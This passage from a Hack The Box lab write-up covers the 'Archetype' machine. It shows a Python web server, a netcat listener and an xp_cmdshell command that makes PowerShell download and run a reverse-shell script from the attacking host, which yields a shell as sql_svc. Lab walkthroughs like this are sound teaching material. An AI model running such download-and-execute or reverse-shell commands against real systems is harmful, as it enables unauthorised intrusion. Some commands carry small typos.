 Next, let’s start up a mini webserver in python in order to host the file. We can use the following Python command:

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo python3 –m http.server 80
[sudo] password for kali:
Serving  HTTP  on  0.0.0.0  port  80  (http://0.0.0.0:80)  …
```


Here we can use:

·         netcat (a feature-packed networking utility) to reads and writes data across the network.
·         ufw (Uncomplicated FireWall) to allow incoming connections from a specific IP. 

 After standing up a netcat listener on port 443, we can use ufw to allow the callbacks on port 80 and 443 to our machine:

·         nc -lvnp 443
·         ufw allow from 10.10.10.27 proto tcp to any port 80,443

``` shell
kali@kali: ~/HTB/StartingPoint/Archtype $ sudo  nc –lvpn 4433
listening  on  [any]  443  …

sudo  ufw  allow  from  10.10.10.27 proto  tcp  to  any  port  80,443
```


We can now issue the command to download and execute the reverse shell 
through xp\_cmdshell . (10.10.14.16 attacking machine)
``` code 
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.16/shell.ps1\");"
```


We can see from our mini webserver that a file has been downloaded

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_4.png"></div>

A shell  is received as **sql_svc**, and we can get the user.txt on
their desktop.

<div style="width:100%; background-color:#252b34"><img src="StartingPoint_5.png"></div>

Using Tmux, that’s all in one window:

<div style="width:100%; background-color:#252b34"><img width="80%" src="StartingPoint_6.png"></div>
